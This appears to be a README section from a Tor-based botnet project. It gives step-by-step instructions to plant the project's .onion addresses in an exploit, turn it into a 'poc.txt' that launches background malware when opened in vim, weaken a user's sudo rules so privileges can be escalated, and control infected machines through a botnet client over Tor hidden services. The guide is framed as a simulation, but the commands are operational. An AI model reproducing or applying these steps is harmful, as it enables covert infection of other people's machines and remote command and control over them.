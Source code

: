 ### Set up the victim machine

To set up the victim machine we will just need to generate the file text that will
execute the malicious code, and open when we decide to simulate an infection.

#### Generate the text file to infect the victim

1. `cd scripts`
2. Modify the file called onion directions in the `exploit` file for the onion directions of your seed machine. You can execute `$(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname)` in the seed machine to obtain the onions directions.
    1. `sed -i 's/kdq2tg4jedd5tqxs.onion/new download onion/g' exploit`
    2. `sed -i 's/57yvvr2pfb46zull.onion/new communication onion/g' exploit`
3. `bash transform.sh exploit`
4. Inside scripts, a file called `poc.txt` will now appear. Save it, we will need it later

#### Set up user account

1. `sudo visudo` and add `"username" ALL=(ALL,!root) NOPASSWD: ALL
2. Remove user from sudo group, if needed. `sudo deluser "username" sudo`
3. Reboot

We have a user prepared to exploit through privilege escalation.

#### Simulate a victim infection

1. Copy `poc.txt` to the victim machine
2. `vim poc.txt`

This will open a file and start a python script in the background that will install all the required libraries, set up TOR and start the download and communication for server in the victim machine. You can use `ps aux | grep malware` to see if the process is up and running.

## Connecting to victims

Once the seed machine and the victim are set up, you can interact with them through a client, it can be found in `src/botnet/client.py`.

The only left detail is that you will need to store the seed and victim onions directly in the client code or in a text file to access them. 

In the previous section you modified the `exploit` with your own seed onions directions. You will need to repeat that process to modify the client. Repeat step 2 of *Generate the text file to infect the victim*.

![seed_directions](visual_media/seed_directions.png)
